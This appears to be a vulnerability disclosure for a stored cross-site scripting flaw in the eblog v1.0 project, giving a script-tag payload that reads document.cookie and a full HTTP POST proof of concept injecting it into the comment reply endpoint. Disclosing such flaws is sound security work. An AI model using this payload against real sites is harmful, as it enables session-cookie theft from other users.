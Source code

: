 target:https://github.com/MarkerHub/eblog   version: v1.0

Log in as a test007 user and leave a comment in the comments section of the post using the malicious code we have prepared.  
payload:<script>alert(document.cookie)</script>  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/602cc7f2-0b15-48db-aea1-e562231e6b9a">  
POC:  
POST /post/reply/ HTTP/1.1  
Host: localhost:8080  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 63  
Origin: http://localhost:8080  
Connection: close  
Referer: http://localhost:8080/post/2  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964720; JSESSIONID=619AE47A2A22C9A7E23A64C324D778E1; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704964720  

content=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&jid=2  


When other users log in and click on the post, malicious code will be triggered, taking MarkerHub users as an example.  
<img width="415" alt="image" src="https://github.com/biantaibao/eblog_xss/assets/131763503/1d91f4b6-a3f5-4dc2-9efe-e51107ff0bdc">

